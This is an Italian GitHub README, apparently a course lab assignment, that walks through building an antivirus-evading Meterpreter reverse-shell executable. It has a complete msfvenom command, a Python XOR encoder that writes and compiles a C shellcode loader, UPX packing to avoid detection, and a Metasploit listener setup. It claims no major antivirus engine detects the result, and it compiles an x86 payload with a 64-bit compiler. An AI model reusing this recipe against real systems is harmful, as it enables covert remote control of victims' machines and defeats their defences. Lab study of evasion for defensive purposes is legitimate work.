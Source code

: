 # 📝 Consegna S9/L1
# **Creazione di un Payload Offuscato** 🚀

Questo progetto documenta la creazione di un payload `Meterpreter` irriconoscibile da VirusTotal, mantenendone la funzionalità e garantendo l'esecuzione su un ambiente Windows, come **FlareVM**. Il processo include tecniche avanzate di offuscamento, encoding personalizzato e il trasferimento sicuro tra ambienti virtualizzati.

---

## ⚙️ **Prerequisiti**
Prima di iniziare, assicurati di avere:
- 🐧 **Kali Linux** come macchina virtuale.
- 🪟 **Windows FlareVM** come sistema di test.
- 🖥️ **VirtualBox** o un altro hypervisor con supporto per cartelle condivise.
- 🔧 Strumenti necessari:
  - `msfvenom`
  - `gcc` (MinGW per Kali Linux)
  - `python3`
  - `upx` (opzionale per il packing).

---

## 📜 **Passaggi principali**

### 1️⃣ **Generazione del payload di base**
Creare un payload `Meterpreter reverse_tcp` con **msfvenom**:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=5959 -a x86 --platform windows -f raw -o base_payload.raw
```
> Questo genera un payload grezzo che sarà successivamente offuscato.

---

### 2️⃣ **Offuscamento personalizzato con XOR**
Creare uno script Python per codificare il payload con l'algoritmo **XOR** e generare un decoder runtime in C:
```python
import random
import os

def create_executable(payload_file, output_file):
    # Leggi il payload originale
    with open(payload_file, "rb") as f:
        payload = f.read()

    # Genera una chiave XOR casuale
    key = random.randint(1, 255)

    # Codifica il payload con XOR
    encoded_payload = bytearray([byte ^ key for byte in payload])

    # Crea il decoder in C
    decoder = f'''
#include <windows.h>
unsigned char payload[] = {{
    {", ".join(f"0x{byte:02x}" for byte in encoded_payload)}
}};
int main() {{
    unsigned char key = {key};  // Chiave XOR
    int length = sizeof(payload);
    for (int i = 0; i < length; i++) {{
        payload[i] ^= key;
    }}
    void (*exec)() = (void (*)())payload;
    exec();
    return 0;
}}
    '''

    # Scrivi il decoder in un file temporaneo
    with open("decoder.c", "w") as f:
        f.write(decoder)

    # Compila il file C in un eseguibile usando MinGW
    os.system(f"x86_64-w64-mingw32-gcc -o {output_file} decoder.c")
    os.remove("decoder.c")

create_executable("base_payload.raw", "final_payload.exe")
```

Esegui lo script:
```bash
python3 xor_coding.py
```

---

### 3️⃣ **Packing con UPX (opzionale)** 🧊
Per ridurre ulteriormente la probabilità di rilevamento, utilizza il tool **UPX**:
```bash
upx --best --ultra-brute final_payload.exe
```

---

### 4️⃣ **Trasferimento del file su Windows**
Configurare una **cartella condivisa** tra Kali Linux e Windows per trasferire il file generato:
1. In VirtualBox, aggiungi una cartella condivisa denominata `CONDIVISA` e abilita il **montaggio automatico**.
2. Monta la cartella su Kali Linux:
   ```bash
   sudo mount -t vboxsf CONDIVISA /mnt/CONDIVISA
   ```
3. Copia il file `final_payload.exe` nella cartella condivisa:
   ```bash
   cp final_payload.exe /mnt/CONDIVISA
   ```
4. Accedi al file su Windows dalla cartella condivisa.

---

### 5️⃣ **Test su FlareVM** 🧪
Esegui il payload su **Windows FlareVM** per verificare il funzionamento:
1. Configura Metasploit sulla macchina di Kali Linux:
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.23
   set LPORT 5959
   exploit
   ```
2. Esegui il file `final_payload.exe` su FlareVM e verifica che la connessione venga stabilita.

---

## 📊 **Risultati**
- **Rilevamento su VirusTotal**: Il file generato risulta **irriconoscibile** da tutti i principali motori antivirus grazie all'uso combinato di offuscamento XOR, decoder runtime personalizzato e packing.
- **Compatibilità**: Il file è eseguibile su Windows e compatibile con FlareVM per il test.

---

## 🛠️ **Debugging e miglioramenti**
Se il file non funziona correttamente:
- Assicurati che **x86_64-w64-mingw32-gcc** sia configurato correttamente.
- Testa il file senza **UPX**, in quanto alcuni packer possono interferire con l'esecuzione.
- Verifica il payload grezzo usando `msfvenom` per garantire che non sia corrotto.

---
